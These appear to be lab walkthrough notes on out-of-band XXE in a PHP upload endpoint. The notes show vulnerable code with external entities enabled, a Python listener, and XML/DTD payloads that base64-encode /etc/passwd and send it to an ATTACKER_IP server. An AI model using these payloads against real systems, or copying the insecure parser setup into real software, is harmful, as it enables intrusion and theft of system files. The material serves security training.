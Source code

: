 ```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server. You can use Python's http.server module, although there are options out there, like Apache or Nginx.
```shell-session
user@tryhack $ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Upload a file in the application and monitor the request that is sent to `submit.php` using your Burp. Forward the request below to Burp Repeater.
	![](Pasted%20image%2020241220120014.png)

Using the payload below, replace the value of the XML file in the request and resend it.
```shell
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://{ATTACKER_IP}:1337/" >]>
<upload>
	<file>
		&xxe;
	</file>
</upload>
```

![](Pasted%20image%2020241220120112.png)

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.
	![](Pasted%20image%2020241220120129.png)

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:
```shell
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

## **DTD Payload Explained**
The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`.
	  The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.

Go back to the repeater and change your payload to:
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE uploadDTD SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>
	    &exfil;
	</file>
</upload>
```
which means
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload [
  <!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
  %oobxxe;
]>
<upload>
	<file>
	  &exfil;
	</file>
</upload>

```
stack is:
```shell
[
  upload,
  %cmd,
  %oobxxe,
  exfil -> SYSTEM 'http://...data=php://filter...'
]
```

![](Pasted%20image%2020241220120911.png)

Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.
	![](Pasted%20image%2020241220120930.png)
Decoding the exfiltrated base64 data will show that it contains the base64 value of /etc/passwd.
	![](Pasted%20image%2020241220120950.png)


